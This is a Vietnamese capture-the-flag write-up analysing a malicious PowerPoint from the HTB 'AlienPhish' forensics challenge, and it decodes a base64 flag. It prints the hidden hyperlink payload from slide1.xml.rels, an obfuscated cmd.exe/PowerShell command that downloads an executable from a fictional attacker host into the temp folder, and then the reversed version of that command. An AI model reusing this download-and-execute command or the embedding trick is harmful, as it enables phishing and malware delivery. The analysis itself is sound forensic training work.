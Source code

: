 # AlienPhish

<figure><img src="../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% file src="../../.gitbook/assets/forensics_alienphish.zip" %}

* Tiếp tục với Phân tích tài liệu độc, lần này là một file PowerPoint
*

    <figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

```
┌──(kali㉿kali)-[~/Desktop/HTB/AlienPhise]
└─$ unzip Alien\ Weaknesses.pptx 
Archive:  Alien Weaknesses.pptx
  inflating: [Content_Types].xml     
  inflating: _rels/.rels             
  inflating: ppt/slides/_rels/slide1.xml.rels  
  inflating: ppt/_rels/presentation.xml.rels  
  inflating: ppt/presentation.xml    
  inflating: ppt/slides/slide1.xml   
  inflating: ppt/slideLayouts/_rels/slideLayout5.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout8.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout10.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout11.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout9.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout6.xml.rels  
  inflating: ppt/slideMasters/_rels/slideMaster1.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout1.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout2.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout3.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout7.xml.rels  
  inflating: ppt/slideLayouts/slideLayout11.xml  
  inflating: ppt/slideLayouts/slideLayout10.xml  
  inflating: ppt/slideLayouts/slideLayout3.xml  
  inflating: ppt/slideLayouts/slideLayout2.xml  
  inflating: ppt/slideLayouts/slideLayout1.xml  
  inflating: ppt/slideMasters/slideMaster1.xml  
  inflating: ppt/slideLayouts/slideLayout4.xml  
  inflating: ppt/slideLayouts/slideLayout5.xml  
  inflating: ppt/slideLayouts/slideLayout6.xml  
  inflating: ppt/slideLayouts/slideLayout7.xml  
  inflating: ppt/slideLayouts/slideLayout8.xml  
  inflating: ppt/slideLayouts/slideLayout9.xml  
  inflating: ppt/slideLayouts/_rels/slideLayout4.xml.rels  
  inflating: ppt/theme/theme1.xml    
 extracting: ppt/media/image1.png    
 extracting: ppt/media/image2.png    
 extracting: docProps/thumbnail.jpeg  
  inflating: ppt/presProps.xml       
  inflating: ppt/tableStyles.xml     
  inflating: ppt/viewProps.xml       
  inflating: docProps/app.xml        
  inflating: docProps/core.xml 
```

* Sau khi mình check tất cả các file thì nhận thấy file `slide1_xml.rels` chứa một chuỗi đáng ngờ

```
┌──(kali㉿kali)-[~/…/AlienPhise/ppt/slides/_rels]
└─$ strings slide1.xml.rels 
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId3" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/image" Target="../media/image1.png"/><Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22" TargetMode="External"/><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/slideLayout" Target="../slideLayouts/slideLayout1.xml"/><Relationship Id="rId5" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/image" Target="../media/image2.png"/><Relationship Id="rId4" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe" TargetMode="External"/></Relationships>
```

* Nhìn vào các Target ta sẽ thấy ngay đoạn bất thường

```
Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22"
```

* Nếu để ý thì sẽ thấy một số string bị đảo ngược

```
neila -> alien
htraeyortsed -> destroyearth
ptth -> http
```

* Reverse đoạn Target này lại

```
22%52%=!XCk*:XCk52%02%llac02%002%qel02%X52%02%fi;pma&;pma&!1,X52%~:My!!XCk!=XCk02%tes02%od)0;1-;221(02%ni02%X52%02%L/02%rof;pma&;pma&powershell02%-c02%22%$o02%=02%$env:temp02%+02%'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe';02%iwr02%http:/destroyearth.alien/x.exe02%-outfile02%$o22%=My02%tes22%C/NO:V/02%exe.dmc"=tegraT
```

* Ta có một đoạn  base64 `Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM`

```
>>> import base64
>>> flag = "Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM="
>>> base64.b64decode(flag)
b'CHTB{pH1sHiNg_w0_m4cr0s'
```

Ta có flag cần tìm

\
